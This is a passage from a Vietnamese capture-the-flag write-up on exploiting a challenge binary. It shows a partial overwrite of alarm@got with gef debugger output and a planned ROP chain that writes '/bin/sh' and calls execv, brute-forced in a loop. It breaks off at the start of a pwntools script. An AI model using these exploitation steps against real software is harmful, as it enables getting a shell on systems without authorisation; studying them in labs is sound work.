 
Kết quả thu được như mình mong muốn, 2 bytes cuối của `alarm@got` bị ghi thành `/x41/xc0`, RBP = 0x404120. 

```shell
gef➤  x/gx 0x404020
0x404020 <alarm@got.plt>:       0x00001555553d41c0
gef➤  x/gx $rbp
0x404120:       0x0000000000000000
```

<br/>

**2. Write `/bin/sh\x00` and seup [RSI] = 0**

Công việc cuối cùng là viết `/bin/sh\x00`, setup cho RSI = 0 và xây ROP chain để gọi `execv`. Memory layout được mình thiết kế như sau

<img src="./imgs/4.png"/>

Payload hoạt động nhưng phải bật option NOASLR. Quay lại vấn đề bruteforce, mình sẽ bỏ script trong vòng `While` để liên tục bruteforce đến khi nào có đúng địa chỉ `execv`. 

```python
#!/usr/bin/env python3
from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

while True:
    def GDB(): 
        gdb.attach(p, gdbscript='''
```